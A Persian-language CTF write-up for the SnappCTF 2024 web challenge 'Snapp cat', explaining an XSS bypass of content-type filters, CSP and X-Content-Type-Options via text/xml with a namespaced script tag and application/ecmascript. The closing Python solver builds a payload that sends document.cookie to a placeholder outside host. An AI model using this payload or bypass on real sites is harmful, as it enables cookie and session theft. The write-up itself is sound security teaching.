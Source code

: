 ```yaml
---
tags:
  - SnappCTF
  - SnappCTF-2024
  - XSS
  - CSP
  - Web
  - X-Content-Type-Options
  - Content-Type
---
```


<h1 dir="ltr">Snapp cat</h1>

<center>

![b64.png](./b64.png)

</center>

## توضیح حل چالش

کد سرور توی این سوال به ما داده شده و ما میتونیم اونو دانلود کنیم:
```js
#!/usr/bin/env node
const express = require('express')

const app = express()

app.get('/',(req,res)=>{
	let ct = (req.query.ct || 'ct').toString()
	let buf = Buffer.from(((req.query.buf || btoa('?buf=base64str')).toString()),'base64')
	if(!/^[a-z/]+$/.test(ct) || /htm|javascript/i.test(ct)){
		return res.send('na')
	}
	
	if(/<[a-z]/i.test(buf)){
		return res.send('na')
	}	
	res.setHeader('Content-Type',ct)
	res.setHeader('X-Content-Type-Options','nosniff')
	res.setHeader('Content-Security-Policy',`default-src 'self';`)
	res.send(buf)
})

app.listen(8000)
```

همون طور که میبینین سرور از ما دوتا پارامتر (ct, buf) میگیره که ct همون content-type هستش و buf محتوایی هستش که سرور به ما برمیگردونه

قبل از اینکه سرور به ما دیتایی که داریم رو برگردونه ، یک سری ولیدیشن انجام میده مثلا ما نمیتونم از content type (text/html, text/javascript) استفاده کنیم و همینطور توی دیتایی که به عنوان buf بهش میدیم هم نمیتونیم از تگ های html استفاده کنیم

ولی بعد از چند تست و بررسی های content type هایی که میتونیم روش کد جاوااسکریپت اجرا کنیم با این ها مواجه شدم:

```
text/html
application/xhtml+xml
application/xml
text/xml
image/svg+xml
text/xsl
```

و تنها content type هایی که میتونیم استفاده کنیم: text/xml, text/xsl هستش که اینجا من از text/xml استفاده کردم

ولی یه مشکلی بود ، اینکه ما نمیتونیم از تگی استفاده کنیم که حرف اولش بین a-z | A-Z باشه. ولی بعد از سرچ زدن درباره xml متوجه شدم که ما میتونیم از _ (underline) استفاده کنیم به عنوان اسم تگ

پس payload ام شد این:

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<_:script xmlns:_="http://www.w3.org/1999/xhtml">XSS</_:script>
```

ولی یه مشکلی بود که اصلا حواسم بهش نبود و اون هم content-security-policy بود که نمیزاشت ما از unsafe-inline استفاده کنیم و تنها کاری که میتونستیم اینجا بکنیم این بود که بیایم یک کد جاوااسکریپت از همین origin لوید کنیم

و خب این کار هم میشد با این حرکت انجام داد:

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<_:script xmlns:_="http://www.w3.org/1999/xhtml" src="?buf=XSS"></_:script>
```

ولی باز هم یک مشکل بود که اون هدر X-Content-Type-Options بود. توی توضیحات این هدر تو سایت [MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Content-Type-Options) گفته شده که اگه ریکویستی که ما میزنیم ، content type اش با محتوایی که قراره لوید بشه فرق داشته باشه ریکویست بلاک میشه

برای مثال فرض کنین ما content-type رو بزاریم text/css ولی محتوایی که مرورگر لوید میکنه جاوااسکریپت باشه ، که توی این شرایط ریکویست ما بلافاصله بلاک میشه

خب ما نمیتونیم از text/javascript استفاده کنیم چون که قبلش چک میکنه که javascript توی ct نباشه ولی میتونیم از application/ecmascript استفاده کنیم و اینطوری میتونیم x-content-type-options رو دور بزنیم و XSS بگیریم

و در نهایت پیلود ما میشه:
```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<_:script xmlns:_="http://www.w3.org/1999/xhtml" src="?buf=XSS?ct=application/ecmascript"></_:script>
```

برای حل این سوال میتونین از کد زیر استفاده کنین

```python
import requests
import base64
import sys
import html

url = 'https://b64.spchallenge.ir/'

xss_pay = """window.location='https://REDACTED?flag=' + document.cookie"""
pa = "?buf=%s&ct=%s" % (base64.b64encode(xss_pay.encode()).decode(), "application/ecmascript")
p = """<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<_:script xmlns:_="http://www.w3.org/1999/xhtml" src="%s"></_:script>""" % html.escape(pa)


buffer, ct = base64.b64encode(p.encode()).decode(), "text/xml"
d = requests.get(url, params={'buf':buffer, 'ct': ct})
print(d.url)
```

به جای REDACTED از آدرس سرور خودتون استفاده کنین و بعد از اجرای کد بالا بهتون یه آدرس میده که اون رو میتونین بدین به بات تا فلگ رو براتون بفرسته

??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`SNAPP{9a952b93a0f0ad23304547c4de2025fb}`</div>


!!! نویسنده
    [amir303](https://x.com/amir3O3)

